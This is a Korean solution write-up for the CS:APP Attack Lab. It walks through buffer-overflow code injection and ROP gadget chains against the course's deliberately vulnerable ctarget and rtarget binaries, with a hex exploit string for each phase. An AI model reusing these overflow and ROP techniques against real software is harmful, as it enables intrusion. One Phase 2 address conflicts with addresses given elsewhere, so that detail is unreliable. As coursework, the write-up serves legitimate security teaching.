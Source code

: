 # Attack_Lab  / Solution by BaeJuneHyuck , PNU CSE


## <Phase_1>
Phase1,2,3은 ctarget의 getbuf 실행 후 리턴을 통해touch1,2,3을 실행해야 한다.

제공받은 ctarget을 objdump -d 를 사용하여 역어셈블한 뒤, getbuf를 확인하면 **sub $0x28, %rsp**를 통해 스택에 40바이트를 할당함을 확인할 수 있다. 

우리의 목적인 touch1에 접근하기 위해서는 할당 받은 40바이트를 넘어 touch1의 주소를 입력하여 return address를 수정하면 된다.

touch1의 주소는 0x401915이며 Byte ordering에 따라서 15 19 40 00 00 00 00 00 을 주소로 입력해주었다. 

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40바이트 채우기 */
15 19 40 00 00 00 00 00 /* touch1의 주소 */
```
위의 내용을 exploit.txt로 생성한 뒤, cat exploit1.txt | ./hex2raw | ./ctarget 을 실행하여
Phase1을 성공적으로 수행하였다.

## <Phase_2>
Phase2에서는 getbuf이후 touch2를 실행하되 인자로 자신의 cookie값을 전달해야 한다. 

따라서, touch2의 인자를 조작하기 위하여 **mov $0x232add1b, %rdi** 가 실행되고, 그 다음 **retq** 를 통해 touch2로 Instruction Pointer가 이동해야 한다. 

gets의 입력으로 이를 위한 바이트 코드를 입력하고 리턴 어드레스를 입력 버퍼의 주소로 설정하면, 해당 코드가 실행되도록 할 수 있다. 

위의 어셈블리 코드를 phase2.s 로 생성하고, gcc -c phase2로 컴파일, objdump -d phase2.o 를 통하여 역어셈블 하면 바이트 코드 **48 c7 c7 1b dd 2a 23 / c3** 를 얻을 수 있다. 

또한, gdb를 통해 retq 실행 직전의 rsp의 값을 x/s %rsp 명령어로 확인, 그 값에서 0x28을 뺀 값이 입력 버퍼의 주소(즉, 첫번째 명령 실행을 위한 주소)이므로 리턴 어드레스를 덮어씌우기 위한 값을 얻게 된다. 

마지막으로 retq의 대상이 되는 touch2의 주소를 덧붙인다. 이들을 조합하여 작성하면 다음과 같다.

```
48 c7 c7 1b dd 2a 23 c3 /* mov $0x232add1b(쿠키값), %rdi // retq */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 나머지 40바이트 채우기 */
88 f8 61 55 00 00 00 00 /* retq 실행 시점의 rsp – 0x28(buf)주소 */
15 19 40 00 00 00 00 00 /* touch2의 주소, 리틀 엔디안 */
 ```
 
## <Phase_3>
 Phase2와 달리 쿠키를 정수 값이 아닌 문자열로 전달해 주어야한다. 
 
기본적인 방법은 위의 phase2와 비슷하다. 원래 함수의 리턴 주소를 입력 버퍼의 주소(rsp-0x28)로 바꿔서 첫번째 명령(movq)을 실행하도록 하였다. 

이때 movq 명령은 phase2와 달리 쿠키 string이 있는 위치, 즉 retq실행 시점의 rsp + 0x10을 rdi에 저장하고 있다. 

이후 첫번째 라인의 리턴(c3)에 의해 touch3가 실행된다. 이를 나타내는 입력은 아래와 같다.

```
48 c7 c7 c0 f8 61 55 c3  /* movq 0x5561f8c0(cookie string의 주소), rdi */ 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 여기까지 40바이트 */
88 f8 61 55 00 00 00 00 /* retq 실행 시점의 rsp – 0x28(buf)주소 */
52 1a 40 00 00 00 00 00 /* touch 3 주소 */
32 33 32 61 64 64 31 62 /* cookie string */
```

## <Phase_4>
 Phase4, 5는 새로운 실행파일인 rtarget을 실행시켜 ROP를 사용, phase2, 3을 반복한다.
 
주어진 pdf에서는 2개의 가젯을 이용하여 이를 수행할 수 있고 pop을 이용하여 스택에서 데이터와 가젯의 주소를 사용할 수 있다고 힌트를 주고 있다. 우리가 원하는 동작은 rdi에 쿠키값을 넣고 touch2를 실행하는 것이다. 

직접 쿠키의 값을 레지스터에 입력해주는 가젯은 없으니 버퍼 입력을 통해 스택에 쿠키값을 삽입, 입력 되어있는 쿠키를 pop을 사용하여 rdi에 저장해주자.

사용중인 rtarget 파일에서는 popq %rdi의 가젯이 존재하지 않아서 **popq %rax**를 통해 임시로 rax에 저장 후 **movq %rax, %rdi**를 통해 rdi에 쿠키값을 입력하였다.

 이제 각각의 가젯을 찾아야 하는데 이들의 바이트 코드는 각각 **58 / 48 89 c7** 이다. rtarget 내부의 gadget_farm에서 ‘58’을 검색하면 아래와 같은 코드를 찾을 수 있다.

```
0000000000401aef <getval_379>:
  401aef:	b8 1e 58 90 90       	mov    $0x9090581e, %eax
  401af4:	c3                   	retq
```
58 90 90 c3에서 90은 nop로써 원하는 동작을 하는데 영향을 주지 않는다.

따라서 401aef + 3 (offset)으로 popq rax를 사용할 수 있다.  같은 방법으로 movq %rax %rdi의 가젯도 찾을 수 있으며. 이를 통해 작성된 입력은 아래와 같다.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40 바이트 */
f1 1a 40 00 00 00 00 00 /* gadget 1	popq rax */
1b dd 2a 23 00 00 00 00 /* cookie */
f8 1a 40 00 00 00 00 00 /* gadget 2	movq rax rdi */
41 19 40 00 00 00 00 00	/* touch2 의 주소*/
```

## <Phase_5>	
 Phase3에서 사용한 입력들을 가젯을 사용하여 구현하여야 한다. 
 
 주어진 pdf는 공식적인 정답은 8개의 가젯을 사용한다고 말해주고 있는데 이를 통해phase_3에서 사용한 movq와 retq가 여러 가젯을 사용하여 구현될 것 임을 알 수 있다. 
 
먼저 rdi에 쿠키의 주소를 입력해 주어야 하는데, 역시나 이를 직접 수행할 수는 없으며, 직접 버퍼 입력으로 cookie의 string을 입력해주고 그 주소를 pop을 사용하여 레지스터에 전달해주어야 한다.

rsp를 rdi에 저장한 뒤 rsp에서 cookie string까지의 거리 48을 rax에 넣으면 두 값을 더한 값이 바로 쿠키의 주소가 된다. 이를 위한 add_xy가 gadget_farm에 친절하게도 존재하는 것을 확인할 수 있고, 이후 gadget7으로 사용하였다.


 구현을 위하여 여러 가젯이 사용되였다. gadget7의 lea (rdi rsi 1), eax를 사용하기 위해서 **rsp의 값은 movq를 통해 rsp -> rax ->rdi 순으로 전달**되었으며 **쿠키 스트링까지의 거리 48은 popq를 사용하여 rax에 저장된 뒤, rax->edx->ecx->esi순으로 전달**되었다. 
 
 이 두 값을 lea를 통해 더한 뒤 eax에 저장해주었고 마지막으로 movq rax rdi를 실행하는 가젯을 통하여 쿠키의 주소를 인자(rdi)로 전달, touch3를 실행하였다. 
 
 특이한 점으로 5번째 가젯의 바이트코드에는 38 c0이 포함 되어있으나 해당 코드가 실행하는 명령인 cmpb는 레지스터에 영향을 주지 않으므로 원하는 기능을 수행하는데 아무 문제가 되지 않는다. 이를 모두 구현한 입력은 아래와 같다. 

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40 바이트 */
3f 1b 40 00 00 00 00 00 /* gadget1, movq rsp rax */
f8 1a 40 00 00 00 00 00 /* gadget2, movq rax rdi */
f1 1a 40 00 00 00 00 00 /* gadget3, popq rax */
48 00 00 00 00 00 00 00 /* gap between gadget1 and cookie */
39 1b 40 00 00 00 00 00 /* gadget4, movl eax edx */
8b 1b 40 00 00 00 00 00 /* gadget5, movl edx ecx */ 
a2 1b 40 00 00 00 00 00 /* gadget6, movl ecx */
2a 1b 40 00 00 00 00 00 /* gadget7, lea (rdi rsi 1) eax */
f8 1a 40 00 00 00 00 00 /* gadget8, movq rax */
52 1a 40 00 00 00 00 00 /* touch 3 주소 */
32 33 32 61 64 64 31 62 /* cookie string */
00 00 00 00 00 00 00 00 /* string end */
```
